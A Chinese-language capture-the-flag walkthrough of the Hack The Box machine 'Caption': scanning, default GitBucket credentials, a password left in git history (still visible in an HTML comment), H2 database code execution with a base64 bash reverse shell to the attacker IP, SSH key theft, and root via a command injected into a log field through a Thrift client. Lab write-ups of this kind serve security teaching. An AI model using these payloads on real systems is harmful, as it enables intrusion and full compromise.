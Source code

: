 # Caption

> 本机 IP: 10.11.11.12
>
> 目标 IP: 10.11.11.11
>
> 参考 [wp](https://loghmariala.github.io/posts/Caption/)

```shell
$ nmap -sSVC -p- 10.11.11.11
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu
80/tcp   open  http       Werkzeug/3.0.1 Python/3.10.12
|_http-server-header: Werkzeug/3.0.1 Python/3.10.12
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions:
|     HTTP/1.1 301 Moved Permanently
|     content-length: 0
|     location: http://caption.htb
|_    connection: close
|_http-title: Caption Portal Login
8080/tcp open  http-proxy
|_http-title: GitBucket
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 5916
|     <!DOCTYPE html>
|     <html prefix="og: http://ogp.me/ns#" lang="en">
|     <head>
|     <meta charset="UTF-8" />
|     <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=5.0" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <title>Error</title>
|     <meta property="og:title" content="Error" />
|     <meta property="og:type" content="object" />
|     <meta property="og:url" content="http://10.10.11.33:8080/nice%20ports%2C/Tri%6Eity.txt%2ebak" />
|     <meta property="og:image" content="http://10.10.11.33:8080/assets/common/images/gitbucket_ogp.png" />
...

$ vi /etc/hosts
[+] 10.10.11.33 caption.htb
```

访问 http://caption.htb/, 一个登录界面, 无法登录

访问 http://caption.htb:8080/, 为 GitBucket, 有两个仓库 Logservice 和 Caption-Portal; root:root 尝试登录成功

git clone 仓库 Caption-Portal, 查找 git hash 为 0e3ba... 提交中, config/haproxy/haproxy.cfg 有修改痕迹, 其中有删除字段:

<!-- ```cfg
userlist AuthUsers
        user margo insecure-password vFr&cS2#0!
``` -->

```cfg
userlist AuthUsers
        user margo insecure-password ⬛⬛⬛
```

使用 margo:⬛⬛⬛ 登录 http://caption.htb/ 成功, 但未发现利用点

Gitbucket 设置界面查找有 Database viewer 功能, 可执行 SQL 语句, 根据报错信息得知为 H2 数据库

<!-- 未执行, 看wp的

[H2 数据库漏洞](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2)

查看版本`SELECT H2VERSION() FROM DUAL` -->

```sql
-- Gitbacket 的 Database viewer 中执行SQL语句可远程执行命令

-- 这个好像不需要?
CREATE TABLE TEST (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL
);

-- 本机执行 nc -lvvp 2333

-- bash -i >& /dev/tcp/10.11.11.12/2333
-- base64 编码为
-- YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMS4xMS4xMi8yMzMzIDA+JjE=
CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMS4xMS4xMi8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}");';
```

或使用 [wp](https://loghmariala.github.io/posts/Caption/) 方法

```sql
-- 创建函数
CREATE ALIAS RUNEXEC AS $$
String shellexec(String cmd) throws java.io.IOException {
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";
}
$$;

-- id
CALL RUNEXEC('id')

-- 得到命令执行结果
org.h2.jdbc.JdbcSQLDataException:Data conversion error converting"uid=1000(margo) gid=1000(margo) groups=1000(margo)";SQL statement: CALL RUNEXEC('id'); [22018-199]

-- 获取ssh密钥
CALL RUNEXEC('cat /home/margo/.ssh/id_ecdsa')

org.h2.jdbc.JdbcSQLDataException:Data conversion error converting"-----BEGIN OPENSSH PRIVATE KEY----- ⬛⬛⬛ -----END OPENSSH PRIVATE KEY-----";SQL statement: CALL RUNEXEC('cat /home/margo/.ssh/id_ecdsa'); [22018-199]
```

本机创建文件`id_ecdsa`并将密钥复制其中

```shell
$ ssh -i id_ecdsa margo@caption.htb

margo@caption:~$ ls
... gitbucket.war user.txt
```

## Privilege Escalation

<!-- 以下均参考wp -->

使用 Thrift 客户端与目标计算机上运行的名为 LogService 的服务进行交互, 利用 LogService 中的漏洞来实现 RCE 并提权

克隆 Gitbucket 中的 Logservice 仓库, 使用 Thrift 从该文件生成 Python 客户端代码

```shell
margo@caption:~$ git clone http://caption.htb:8080/git/root/Logservice.git

margo@caption:~$ cd Logservice/

margo@caption:~/Logservice$ ls
... gen-go  log_service.thrift  server.go

margo@caption:~/Logservice$ thrift --gen py log_service.thrift

margo@caption:~/Logservice$ ls
... gen-py  log_service.thrift

# 在 /tmp 中创建恶意log文件
margo@caption:~/Logservice$ cd /tmp

margo@caption:~/Logservice$ vi malicious.log
[+] 127.0.0.1 "user-agent":"'; chmod +s /bin/bash #"
```

将文件夹 gen-py 复制到本机, 在 gen-py 下使用 python 脚本创建客户端

```python
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/malicious.log"

        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)

    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
    transport.close()

if __name__ == '__main__':
    main()
```

本机执行 python 脚本

```shell
margo@caption:~/Logservice$ ls -la /bin/bash
-rwsr-sr-x 1 root root ... /bin/bash

margo@caption:~/Logservice$ /bin/bash -p

bash-5.1# id
uid=1000(margo) gid=1000(margo) euid=0(root) egid=0(root) groups=0(root),1000(margo)

bash-5.1# whoami
root

bash-5.1# ls /root
... root.txt
```
